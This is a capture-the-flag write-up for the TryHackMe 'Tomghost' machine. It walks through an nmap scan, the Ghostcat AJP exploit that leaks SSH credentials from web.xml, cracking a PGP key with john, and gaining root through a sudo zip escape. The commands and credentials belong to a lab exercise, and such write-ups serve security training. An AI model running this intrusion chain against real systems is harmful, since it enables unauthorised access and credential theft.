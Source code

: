 ```yaml
---
title: "Tomghost - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Tomghost
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Tomghost
![](https://kar0nx.github.io/assets/images/writeup/fR0jVuM.png)

## Reconnaissance

IP: 10.10.54.63
### NMAP

```
nmap -T4 -A -p- 10.10.54.63
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 12:16 EST
Nmap scan report for 10.10.54.63
Host is up (0.043s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/27%OT=22%CT=1%CU=34514%PV=Y%DS=2%DC=T%G=Y%TM=67C0
OS:9E34%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)
OS:OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508
OS:ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
OS:ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   42.67 ms 10.11.0.1
2   43.17 ms 10.10.54.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.43 seconds  
```

Nmap scan shows 4 open ports 22 - ssh, 53 - dns , 8080 http - Apache Tomcat 9.0.30 and 8009 Apache Jserv (Protocol v1.3). Start by checking website
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227182319.png)

Nothing interesting here, no login panel, we can't access Host Manager or Manager App

## Apache Jserv

Searching google, we can find information about Apache Jserv (Protocol v1.3), it can be easily exploitable.
https://www.exploit-db.com/exploits/48143
Download script and run it 

```
python2 tom.py -p 8009 10.10.54.63
```

```
Getting resource at ajp13://10.10.54.63:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

```

We have credentials and there is only one place to try them - ssh 

## Gaining Access

```
ssh skyfuck@10.10.54.63  
```

There are two files that we can download and check

```
scp skyfuck@10.10.52.140:tryhackme.asc . 
scp skyfuck@10.10.52.140:credential.pgp .

```

PGP is cryptography system that generate secret key (.asc) to access (.pgp) files. So we need to 
decrypted .asc and use it to access .pgp 
https://www.openwall.com/lists/john-users/2015/11/17/1

```
gpg2john tryhackme.asc > output
john --wordlist=/usr/share/wordlists/rockyou.txt output
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228074748.png)

```
gpg --import tryhackme.asc  
```

```
gpg --decrypt credential.pgp
```

```   
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j     
```

Great, another credentials, let's use it for ssh login

```
ssh merlin@10.10.52.140
```

```
cat /home/merlin/user.txt
```

## Privilege Escalation

Start with "easy wins"

```
sudo -l
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228075353.png)

Check GTFOBins for sudo/zip and use the given commands.
https://gtfobins.github.io/gtfobins/zip/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250228075417.png)

We have root access. 
Flag should be in /root/root.txt